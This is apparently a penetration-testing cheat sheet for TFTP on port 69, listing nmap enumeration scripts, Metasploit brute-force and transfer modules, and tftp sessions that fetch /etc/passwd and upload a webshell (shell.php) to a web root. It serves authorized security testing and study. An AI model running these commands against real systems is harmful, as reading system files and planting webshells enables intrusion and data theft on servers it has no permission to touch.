 # TFTP Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating TFTP (port 69), I realistically expect to find:

- [ ] Downloadable sensitive files (configs, passwords, backups)
- [ ] Ability to upload files (potential webshells or payloads)
- [ ] Misconfigured permissions allowing read/write access
- [ ] Service banner or version info (sometimes limited)
- [ ] Paths or filenames discovered via brute-force
- [ ] Possible CVEs or known weaknesses in older TFTP implementations

---

## ✅ TFTP Pentest Checklist

- [ ] **Search for Files with Sensitive Info**
  - Look for config files, passwords, backups.

- [ ] **Upload Shells to Trigger in Web Apps**
  - Try uploading webshells if the server writes to a web root.

- [ ] **Check with Nmap Scan**
  - Identify service and enumerate files.
    ```bash
    nmap -sU -p 69 --script tftp-enum.nse <IP>
    nmap -n -Pn -sU -p69 -sV --script tftp-enum <IP>
    ```

- [ ] **Brute-Force (If Possible)**
  - Use Metasploit to try guessing common file paths.
    ```bash
    msfconsole
    use auxiliary/admin/tftp/tftpbrute
    set dictionary /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
    run
    ```

---

## ✅ TFTP Useful Commands

- **Basic Connection**
    ```bash
    tftp <IP>
    tftp> get /etc/passwd
    tftp> put shell.php
    ```

- **Verbose Interaction Example**
    ```bash
    tftp <IP>
    tftp> verbose
    Verbose mode on.
    tftp> put shell.php
    Sent 3605 bytes in 0.0 seconds [inf bits/sec]
    ```

- **Metasploit Modules**
    ```bash
    msfconsole
    use auxiliary/admin/tftp/tftpbrute
    set dictionary /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt

    use auxiliary/admin/tftp/tftp_transfer_util
    ```

